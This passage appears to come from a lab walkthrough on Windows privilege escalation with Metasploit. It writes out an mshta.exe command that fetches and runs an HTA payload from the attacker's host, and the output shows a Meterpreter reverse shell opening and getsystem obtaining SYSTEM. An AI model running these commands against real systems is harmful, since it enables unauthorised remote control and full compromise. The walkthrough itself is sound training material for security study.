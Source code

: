 **Explanation:** The HTA server exploit serves an HTML Application (HTA) file, which can execute arbitrary code on the victim machine when opened. The payload, in this case, is a Meterpreter reverse shell that connects back to the attacker's machine.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Use the 'runas' command to execute a new command prompt as the Administrator._

`runas.exe /user:Administrator cmd.exe`:
```
Enter the password for Administrator: ←
Attempting to start cmd.exe as user "PRIVILEGE-ESCAL\Administrator" ... ←
```

_Verify that the command prompt is now running as the Administrator._

`whoami`:
```
privilege-escal\administrator ←
```

_Trigger the HTA payload by executing the provided URL via 'mshta'._

`mshta.exe http://10.10.42.2:8080/KKzmhzEYG9UrQdy.hta`

**Explanation:** `mshta.exe` is used to execute the HTA file hosted by the attacker, which triggers the payload delivery and the reverse shell connection.

<span style="color: #e57373;">**Attacker machine**</span>.

_Observe the response on the attacker's machine indicating that the payload was successfully delivered and a session was opened._

```
[*] 10.4.24.251      hta_server - Delivering Payload ←
[*] Sending stage (176195 bytes) to 10.4.24.251
[*] Meterpreter session 1 opened (10.10.42.2:4444 -> 10.4.24.251:49800) at 2024-08-09 14:58:46 +0530 ←
```

**Explanation:** The attacker's machine confirms that the HTA payload was executed on the target, opening a Meterpreter session.

_List and interact with the active session in Metasploit._

`sessions`, `sessions -i 1`

_Check the current user within the Meterpreter session._

`getuid`:
```
Server username: PRIVILEGE-ESCAL\Administrator ←
```

_Attempt to escalate privileges to SYSTEM within the Meterpreter session._

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)). ←
```

**Explanation:** The `getsystem` command in Meterpreter attempts to escalate privileges to the SYSTEM account, which is the highest level of access on a Windows machine.
